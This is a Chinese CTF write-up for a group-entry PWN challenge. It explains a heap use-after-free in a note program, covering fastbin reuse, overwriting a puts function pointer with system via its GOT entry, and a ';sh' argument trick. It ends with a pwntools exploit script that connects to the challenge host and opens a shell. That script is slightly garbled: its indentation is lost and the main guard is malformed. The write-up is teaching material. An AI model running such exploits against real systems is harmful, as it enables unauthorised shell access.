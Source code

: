 ```yaml
---
title: 某群CTF
date: 2018-03-18 20:28:10
tags: PWN

---
```


## 0x00 前言

sw师傅出的入群题

一道UAF技术的简单利用，漏洞原理可以参考如下几篇文章：

<!--more-->

[http://d0m021ng.github.io/2017/03/04/PWN/Linux%E5%A0%86%E6%BC%8F%E6%B4%9E%E4%B9%8BUse-after-free%E5%AE%9E%E4%BE%8B/](http://d0m021ng.github.io/2017/03/04/PWN/Linux%E5%A0%86%E6%BC%8F%E6%B4%9E%E4%B9%8BUse-after-free%E5%AE%9E%E4%BE%8B/)

https://www.anquanke.com/post/id/85281

http://0x48.pw/2017/07/25/0x35/

http://www.freebuf.com/articles/system/104144.html

http://www.freebuf.com/articles/security-management/105285.html

## 0x01 漏洞分析

这种一般就是堆漏洞了

{%asset_img 0.png%}

删除函数这里free完之后没有置空

{%asset_img 1.png%}

再来分析一下添加函数：

{%asset_img 4.png%}

puts_0函数会返回调用puts函数

{%asset_img 3.png%}



gdb挂上开始调试吧，这里推荐下libheap插件，分析堆很方便

这里先申请一个大于16字节的size

{%asset_img 2.png%}

可以发现这里和之前静态分析的一样，申请了两个chunk

查看一下内容

{%asset_img 5.png%}

第一个chunk存放的是0x0804864以及0x09921018

可以发现0x0804864正好就是指向Puts函数，0x09921018则指向了第二个和之前静态分析吻合,

{%asset_img 6.png%}

那么利用点就在这个指向Puts函数的指针，将其改为system函数之后就能利用它getshell

接下来再创建一个24size的note

{%asset_img 7.png%}

然后释放第一个note,可以发现根据大小系统依次将两个堆块放到相对应的fastbin单链表中

{%asset_img 8.png%}

继续释放第二个note（emmm这里一下不小心操作失误去释放了了一下一个不存在的chunk，然后又重新操作了一边，地址又对不上了。。。，问题不大，能看懂就好）

{%asset_img 9.png%}

然后，这个时候再申请一个大小为16字节以内的note，得到的将是之前第一个note中第一个chunk的堆空间

{%asset_img 10.png%}

看一下内容：

{%asset_img 11.png%}

可以看到，那个指向Puts函数的指针以及被我们改掉了（这里为什么修改的是第一个chunk而不是第二个chunk呢？这就和你申请的大小有关，你后来申请了一个长度小于16size的note,那么自然会从第一条fastbins链中取，堆漏洞利用中，对于大小是很讲究的）

那么思路就是将那个指向Puts函数的指针改为system函数，这样print note时就能调用system函数

{%asset_img 12.png%}

但是现在并不知道system函数的地址，libc版本也没给，之前sw师傅在群里也说了不用leak，那么就猜应该有system的.got地址，搜一下，还真的有

{%asset_img 13.png%}

那么就可以先利用Puts函数打印出system函数，然后再将system函数地址覆盖Puts函数指针，然后再print note一下就能调用system函数从而getshell了

还有一个小问题，就是当从print_note去调用system函数时，参数里会包括system函数本身

{%asset_img 14.png%}

也就是会出现这种情况：

`system(system_addr+参数)`

那么这里有个小技巧（网上查的）

`system(system+';/sh')`

这样就行了

## 0x02 exp编写

```
from pwn import *
import sys
context.log_level = "debug"
puts_addr = 0x0804864b
def Send(data):

p.recvuntil(":")
p.sendline(str(data))

def Add(size,content):

p.recvuntil(":")
p.sendline("1")
p.recvuntil(":")
p.sendline(str(size))
p.recvuntil(":")
p.sendline(content)

def Free(Index):

p.recvuntil(":")
p.sendline("2")
p.recvuntil(":")
p.sendline(str(Index))

def Show(Index):

p.recvuntil(":")
p.sendline("3")
p.recvuntil("Index :")

if name == "main":

# p = process('./backdoor')

    p = remote('p007.cc',7777)

    elf = ELF('./backdoor')

    system_got = elf.got['system']

    Add(24,"1"*23)
    Add(24,"2"*23)
    Free(0)
    Free(1)
    payload = p32(puts_addr) + p32(system_got)
    Add(8,payload)
    Show(0)
    system_addr = u32(p.recv(4))

    log.success('system_addr: '+ hex(system_addr))
    Free(2)
    payload = p32(system_addr)+';sh'
    Add(8,payload)
    Show(0);
    p.interactive()
```

运行之后getshell

{%asset_img 15.png%}





